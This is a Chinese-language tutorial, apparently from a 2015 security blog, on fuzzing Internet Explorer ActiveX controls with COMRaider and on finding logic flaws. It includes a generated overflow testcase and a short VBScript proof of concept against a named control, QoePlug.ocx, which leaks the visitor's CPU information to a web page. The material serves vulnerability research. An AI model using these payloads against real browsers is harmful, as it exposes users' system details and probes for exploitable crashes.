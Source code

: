 # IE安全系列之——IE中的ActiveX（II）

[ blast](/author/blast) · 2015/12/04 10:21

# 0x00 使用Fuzz工具

* * *

ActiveX的Fuzzer相当之多，本次我们暂时使用一个老牌但是性能较弱的开源Fuzzer：COMRaider。选择它的原因是它是一个图形化的Fuzzer，界面元素简单。但是说弱则是因为它的测试用例实在太少，而且比较陈旧（但是你可以手动添加）。比它强悍的工具还有很多，例如AxManFuzzer，但是AxMan的界面实在是没法截图，所以我还是用这个来演示好了……

COMRaider可以在<https://github.com/dzzie/COMRaider>下载到。安装打开后COMRaider的界面如下图所示。开始按钮完美地隐藏到了右边，和背景融为一色。

![p1](http://static.wooyun.org//drops/20151201/2015120107412587539p1.jpg)

点击Start之后即可开始Fuzz的第一步——选择ActiveX。在这里我们选择“Choose from controls that should beloadable from IE”。

![p2](http://static.wooyun.org//drops/20151201/2015120107412713595p2.jpg)

然后右键选择Scan New。在列表里面挑选一个你看不顺眼的插件，然后点击“Select”按钮即可查看到该插件的详细信息。

![p3](http://static.wooyun.org//drops/20151201/2015120107412835335p3.jpg)

新弹出的窗口中可以查看到该ActiveX的所有方法和属性。记得点击“Show only fuzzable”，把它前面的勾去掉。在列表左边显示的灰色内容是不能fuzz的，黑色内容是可以fuzz的。可以看得出来：凡是无参数传入的方法，COMRaider均Fuzz不了。

![p4](http://static.wooyun.org//drops/20151201/2015120107413087587p4.jpg)

新弹出的窗口中可以查看到该ActiveX的所有方法和属性。记得点击“Show only fuzzable”，把它前面的勾去掉。在列表左边显示的灰色内容是不能fuzz的，黑色内容是可以fuzz的。可以看得出来：凡是无参数传入的方法，COMRaider均Fuzz不了。

![p5](http://static.wooyun.org//drops/20151201/2015120107413170055p5.jpg)

是的，你编辑的文件是VBScript文件，所以一切请遵守VBS的语法。至于为什么要用VBS，COMRaider发布第一版的时候(时代的眼泪)VB还是很流行的，以至于COMRaider都是VB写的。

例如，我们向Long Args加入parent.lngs.add 65535，这样在FuzzLong类型的参数的时候65535就会作为一个testcase被使用。

![p6](http://static.wooyun.org//drops/20151201/2015120107413248711p6.jpg)

# 0x01 如何测试逻辑问题

* * *

本节我们只介绍使用COMRaider来挖掘逻辑漏洞并编写PoC。以此控件为例。

    
    
    Loaded File: F:\Windows\SysWOW64\QoePlug.ocx
    Name:        QOEPLUGLib
    Lib GUID:    {15144D65-D22E-4768-8980-7411EF722FDE}
    Version:     1.0
    Lib Classes: 1  
    
    Class QOEPLUG
    GUID: {B2F9A248-3AB5-493F-A7F8-5B7A9D026ED2}
    Number of Interfaces: 1
    Default Interface: _DQOEPLUG
    RegKey Safe for Script: True
    RegKey Safe for Init: True
    KillBitSet: False
    

它包含如下方法和属性：

    
    
    Interface _DQOEPLUG : IDispatch
    Default Interface: True
    Members : 43
        strOsName
        strCpuName
        strNetLoad
        strCpuUsage
        strMemSize
        strMemUsage
        strProxyServer
        strDnsServer
        strNumComputer
        strTraceInfo
        strProcessInfo
        strKillPid
        strDnsName
        strConnectIp
        strUrl
        strMultiDownLoadUrl
        strDnsTime
        strConnectTime
        strUrlTime
        strMultiDownLoadResult
        strVersion
        strDownloadUrl
        strDownloadTime
        GetOsName
        GetCpuName
        GetNetLoad
        GetCpuUsage
        GetMemSize
        GetMemUsage
        GetProxyServer
        GetDnsServer
        GetNumComputer
        GetTraceInfo
        GetProcessInfo
        KillProcId
        GetDnsTime
        GetConnectTime
        GetUrlTime
        GetMultiDownLoad
        StartMultiDownLoad
        StopMultiDownLoad
        GetVersion
        GetDownloadTime
    

点击其中一项可以看到该项的定义。

![p7](http://static.wooyun.org//drops/20151201/2015120107413454144p7.jpg)

COMRaider在展示信息的时候，显示的方法名也是VB模式的，如果你用过VB那还好，没用过的话只需要大致记得这样的模式即可：

    
    
    Sub 函数名(参数名 As 类型名, 参数名2 As 类型名2 ……) 
    Function 函数名(参数名 As 类型名, 参数名2 As 类型名2 ……)  As 返回值类型
    

Sub对应一个没有返回值的方法，大致等同于C++里面的`void 函数名(类型名 参数名，类型名2 参数名2……)`

Function对应一个有返回值的函数，大致等同于C++里面的`返回类型 函数名(类型名 参数名，类型名2 参数名2……)`

如果一项是可以Fuzz的，我们可以右键点击选择Fuzz member，或者直接Fuzz Library，这将会Fuzz它的所有成员。

![p8](http://static.wooyun.org//drops/20151201/2015120107413556304p8.jpg)

COMRaider使用Windows Scripting Host来Fuzz，生成的文件是wsf类型的（WSF是含有XML代码的文本文档）。COMRaider生成的testcase结构类似如下，所以如果看到外面某个漏洞PoC的代码出现了熟悉的参数名和代码风格，那不用想，肯定是COMRaider的功劳:)。

    
    
    #!xml
    <?XML version='1.0' standalone='yes' ?>
    <package><job id='DoneInVBS' debug='false' error='true'>
    <object classid='clsid:B2F9A248-3AB5-493F-A7F8-5B7A9D026ED2' id='target' />
    <script language='vbscript'>    
    
    'File Generated by COMRaider v0.0.134 - http://labs.idefense.com    
    
    'Wscript.echo typename(target)  
    
    'for debugging/custom prolog
    targetFile = "F:\Windows\SysWOW64\QoePlug.ocx"
    prototype  = "Invoke_Unknown strDownloadTime As String"
    memberName = "strDownloadTime"
    progid     = "QOEPLUGLib.QOEPLUG"
    argCount   = 1  
    
    arg1=String(3092, "A")  
    
    target.strDownloadTime = arg1   
    
    </script></job></package>
    

通过右键点击testcase，然后选择Test Exploit inIE可以在IE中测试对应代码。也可以手动处理生成可在ie加载的代码。如上述代码，掐头去尾取中间就可以了：

    
    
    #!xml
    <object classid='clsid:B2F9A248-3AB5-493F-A7F8-5B7A9D026ED2' id='target' />
    <script language='vbscript'>
    arg1=String(3092, "A")
    target.strDownloadTime = arg1
    </script>
    

COMRaider基本不能验证逻辑漏洞，因此在挖掘的时候需要人工介入。以GetCpuName为例，虽然这是一个无返回值的方法，但是我们同样看到了这个ActiveX还有一个strCpuName的属性，让我们将这两个串联起来。

![p9](http://static.wooyun.org//drops/20151201/2015120107413733448p9.jpg)

PoC：

    
    
    #!xml
    <object classid='clsid:B2F9A248-3AB5-493F-A7F8-5B7A9D026ED2' id='target' />
    <script language='vbscript'>
    target.GetCpuName
    alert(target.strCpuName)
    </script>
    

在IE中验证一下，可以发现CPU挺老的了，该换电脑了。

![p10](http://static.wooyun.org//drops/20151201/2015120107414476960p10.jpg)

# 0x02 Fuzzer怎么知道ActiveX信息的?

* * *

Fuzzer怎么枚举属性和方法？有一个通用的方法，详细表示如下：

  * 先CoCreateInstance创建一个实例，查询其IObjectSecurity接口；
  * 如果实现了这个接口，查询是否设置了Safe for init和Safe for script位，这个是它待会儿要写到测试的配置里面去的；
  * 调用IDispatch中的GetTypeInfo获取ITypeInfo接口用来展开相关的内容；

> MSDN表示： The ITypeInfo interface provides access to the following: The set offunction descriptions associated with the type. For interfaces, this containsthe set of member functions in the interface. The set of data memberdescriptions associated with the type. For structures, this contains the setof members of the type. The general attributes of the type, such as whether itdescribes a structure, an interface, and so on.

简单的说就是ITypeInfo接口提供了对这个接口中的成员函数、成员变量、通用属性（是否定义了一个结构体，一个接口等等）。

  * 对TypeInfo调用GetDocumentation获取函数数量，然后对各个函数调用GetFuncDesc获取函数描述，然后这里就可以获得函数名，返回值，参数数量和参数。

由于COMRaider也是开源的，你也可以下载它的代码，并查看它的具体实现方式。


